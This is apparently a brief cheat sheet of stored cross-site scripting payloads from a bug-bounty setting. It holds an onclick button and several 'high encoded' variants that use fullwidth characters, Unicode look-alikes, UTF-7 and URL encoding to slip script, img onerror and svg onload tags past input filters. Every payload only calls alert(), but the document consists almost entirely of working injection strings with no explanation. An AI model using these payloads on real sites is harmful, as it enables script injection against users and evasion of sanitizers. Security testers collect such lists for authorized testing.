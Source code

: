 # Stored
## Button
```html
<button onclick=alert("Pay Me Pls")>Get Bounty</button>
```
## High encoded
```html
¼scRİPt¾alert``¼/sCrİpT¾
```
```html
¼ıMg ſRc=a oNeRRor=alert``¾
```
```html
+ADw-iMg srC=+ACI-1+ACI- oNeRRor=alert``+AD4-
```
```html
%EF%BC%9Csvg%20onload%3Dalert``%EF%BC%9E
```
